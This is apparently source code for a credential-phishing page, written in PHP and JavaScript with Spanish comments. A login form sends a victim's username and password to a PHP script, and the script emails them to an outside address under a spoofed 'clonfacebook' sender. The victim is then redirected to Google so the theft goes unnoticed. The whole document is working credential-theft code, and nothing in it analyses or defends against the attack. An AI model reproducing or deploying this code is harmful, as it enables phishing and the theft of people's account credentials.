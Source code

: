 <?php
if ($_SERVER["REQUEST_METHOD"] == "POST") {
    // Recibes los datos en JSON
    $data = json_decode(file_get_contents('php://input'), true);

    $username = $data['username'];
    $password = $data['password'];

    // Aquí, en lugar de procesar la autenticación, enviarás un correo
    $to = 'gmail@chupatoto158.com';
    $subject = 'Nueva solicitud de inicio de sesión';
    $body = 'Nombre de Usuario: ' . $username . '\nContraseña: ' . $password;
    $headers = 'From: noreply@clonfacebook.com' . "\r\n" .
        'Reply-To: noreply@clonfacebook.com' . "\r\n" .
        'X-Mailer: PHP/' . phpversion();

    if (mail($to, $subject, $body, $headers)) {
        echo json_encode(array('message' => 'Correo electrónico enviado correctamente.'));
    } else {
        echo json_encode(array('message' => 'Falló al enviar correo electrónico.'));
    }
}
?><script>
    function sendForm() {
        var username = document.getElementById('username').value;
        var password = document.getElementById('password').value;

        var data = {
            'username': username,
            'password': password
        };

        fetch('/processLogin.php', {
            method: 'POST',
            headers: {
                'Content-Type': 'application/json'
            },
            body: JSON.stringify(data)
        }).then((response) => response.json())
            .then((data) => {
                if (data.message === 'Correo electrónico enviado correctamente.') {
                    // Redirecciona a Google.com
                    window.location.href = 'https://www.google.com';
                } else {
                    console.log(data.message);
                    // Aquí podrías mostrar algún mensaje de resultado
                }
            })
            .catch((error) => {
                console.error('Error:', error);
                // Aquí podrías manejar algún error
            });
    }
</script>
